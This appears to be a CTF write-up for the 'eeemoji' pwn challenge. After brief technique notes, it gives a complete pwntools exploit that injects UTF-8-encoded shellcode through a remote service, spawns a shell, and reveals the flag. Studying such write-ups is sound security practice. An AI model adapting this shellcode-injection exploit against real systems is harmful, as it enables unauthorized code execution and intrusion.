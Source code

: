### eeemoji

* Can only execute 2 bytes of our input as shellcode
* Register `r11` is the pointer of our input
* `push r11` so that it will return to our input after executing shellcode

Exploit:

```python
#!/usr/bin/env python
# -*- coding: UTF-8 -*-

from pwn import *

context.arch = 'amd64'

# r = process('./eeemoji')
r = remote('pwnable.org', 31322)

def horse(data):
    r.sendlineafter('🐮🍺\n', '🐴')
    r.send(data)
    sleep(0.5)

def cow():
    r.sendlineafter('🐮🍺\n', '🐮')

def beer():
    r.sendlineafter('🐮🍺\n', '🍺')


beer()
r.recvuntil('at @')
buf = int(r.recvline().strip(), 16)
log.success('buf: ' + hex(buf))

payload = ''
payload = unichr(0x0cc031).encode('utf-8')*2
payload += unichr(0x0cff31).encode('utf-8')
payload += unichr(0x0cca31).encode('utf-8')
payload += unichr(0x0c050f).encode('utf-8')
payload += unichr(0x5341).encode('utf-8')*(0x80-5)
payload += unichr(0x5341).encode('utf-8')
print payload
horse(payload)

r.sendline('a'*0x12 + asm(shellcraft.sh()))

r.interactive()
```

Flag: `flag{zer0_address_is_so0o0o0o_dangerous}`
